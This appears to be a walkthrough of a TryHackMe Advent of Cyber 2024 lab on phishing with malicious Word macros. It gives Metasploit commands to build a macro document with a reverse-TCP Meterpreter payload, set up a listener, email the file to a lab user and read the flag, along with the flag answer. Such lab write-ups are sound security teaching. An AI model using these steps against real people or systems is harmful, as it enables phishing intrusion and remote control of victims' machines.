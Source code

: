 **Advent of Cyber 2024 [Day 10] Writeup with Answers | TryHackMe Walkthrough**
**Intro to Macros** Macros in Microsoft Office are automation tools that allow users to automate repetitive tasks, such as formatting, calculations, or converting numbers to words. While they can save time in everyday tasks, they can also be exploited for malicious purposes. Cyber attackers can hijack these macros to execute malicious code on a victim's machine.

In the context of this task, the goal is to exploit a macro vulnerability in MS Word to gain access to the target system, with the ultimate goal of retrieving a flag from the administrator's desktop.

### **Task 16 — Phishing: He had a brain full of macros, and had shells in his soul.**

#### **Objective:**
To retrieve the flag value inside the `flag.txt` file located on the Administrator's desktop.
### **Steps:**
#### **I. Payload Creation**
1. Open a terminal and start the Metasploit console by typing:
    `msfconsole`
    
2. Once inside Metasploit, create a payload with the following commands:
    `set payload windows/meterpreter/reverse_tcp use exploit/multi/fileformat/office_word_macro set LHOST <Your IP Address> set LPORT 8888 exploit`
    
    - `LHOST` should be set to your machine's IP address.
    - `LPORT` is the port that the reverse connection will use (in this case, 8888).
3. After running the exploit, the MS Word document with the malicious macro payload is created. Move the document to a different location on your machine.
    

#### **II. Creating Listener**

1. Open another terminal window and set up the listener to handle the reverse connection by typing:
    `use exploit/multi/handler set payload windows/meterpreter/reverse_tcp set LHOST <Your IP Address> set LPORT 8888 exploit`
    
2. The listener should now be running, waiting for a reverse connection from the victim's machine.
    

#### **III. Sending Payload and Exploiting**

1. Open a browser and paste your TryHackMe machine IP in a new tab. Log in with the given credentials.
    
2. Create a new email addressed to `marta@socmas.thm`. Attach the malicious Word document (the one with the macro payload).
    
3. Wait for the victim to open the document. Once they do, the reverse connection should be established, and you’ll gain control of the target machine.
    
4. After gaining access, use the following commands in the Meterpreter session to navigate to the administrator's desktop and read the flag:
    `cat c:/users/Administrator/Desktop/flag.txt`
    
    Alternatively:
    `cd c:/users/Administrator/Desktop cat flag.txt`
    

### **Answer:**
`THM{PHISHING_CHRISTMAS}`

---

This walkthrough highlights the process of exploiting a macro vulnerability to execute a payload and gain access to a system.